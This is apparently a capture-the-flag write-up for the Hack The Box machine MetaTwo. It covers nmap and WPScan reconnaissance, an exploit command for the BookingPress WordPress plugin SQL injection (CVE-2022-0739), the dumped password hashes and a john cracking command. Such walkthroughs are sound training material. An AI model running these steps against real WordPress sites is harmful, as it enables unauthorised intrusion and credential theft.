 # Hack the Box - MetaTwo

```CSS
IP: 10.10.11.186 - Linux
CMS: WordPress
```

## Open TCP Ports
### NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.11.186 -T4 --max-rate 1000 -oN open-ports.nmap

Nmap scan report for 10.10.11.186
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh                                                                     
80/tcp open  http                                                                                                                                                          
                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 608.38 seconds
```

## Open TCP Ports - Enumeration
### NMAP
```CSS
▶ nmap -sC -sV -p 21,22,80 10.10.11.186 -oN enum-ports.nmap

Nmap scan report for 10.10.11.186
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh                                                                     
80/tcp open  http                                                                                                                                                          
                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 608.38 seconds
▶ nmap -sC -sV -p 21,22,80 10.10.11.186 -oN enum-ports.nmap                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-19 13:13 IST
Nmap scan report for 10.10.11.186
Host is up (0.18s latency).
                                          
PORT   STATE SERVICE VERSION
21/tcp open  ftp?                                                                    
| fingerprint-strings:                                                               
|   GenericLines:                                                                    
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]           
|     Invalid command: try being more creative
|_    Invalid command: try being more creative 
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:                                                                       
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)            
80/tcp open  http    nginx 1.18.0                                                                                                                                          |_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/            
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service 
:                                                                                    
SF-Port21-TCP:V=7.93%I=7%D=4/19%Time=643F9BA1%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10\
SF:.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cre
SF:ative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative
SF:\r\n");                                                                                                                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel      
                                                                                                                                                                           
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.25 seconds
```

---

## WebServer
### Homepage
![image](https://user-images.githubusercontent.com/83878909/233007255-a55cb9c3-366e-4829-a1f8-9638da827959.png)
### Events
![image](https://user-images.githubusercontent.com/83878909/233008739-59e1f807-2a3d-4aa3-8330-d1f533cc569b.png)
### Events - Page Source
![image](https://user-images.githubusercontent.com/83878909/233020210-57f0a1ac-3af7-4f34-985a-6dd1647cdff2.png)

- CMS: `WordPress`
- Plugin: `Booking Press Appointment Booking`

---

## WordPress
### WPScan
```
▶ wpscan --url http://metapress.htb --disable-tls-checks --plugins-detection aggressive
```
### Wordpress Version
![image](https://user-images.githubusercontent.com/83878909/233022798-dfaef73b-dda4-4102-89f9-dee2e61aa871.png)
### Plugins
![image](https://user-images.githubusercontent.com/83878909/233045498-7825f211-1b68-4654-a7e0-31e5071e8186.png)

---

## Exploit (CVE-2022-0739)
### SQL Injection
  - Expolit: https://github.com/destr4ct/CVE-2022-0739

```CSS
▶ python booking-press-expl.py --url http://metapress.htb --nonce 55b094723b
```
![image](https://user-images.githubusercontent.com/83878909/233048115-82eca30b-607b-466f-820d-1c011dc1c67c.png)
  - Password Hashes
```
$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Crack Hashes
```CSS
▶ john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
```
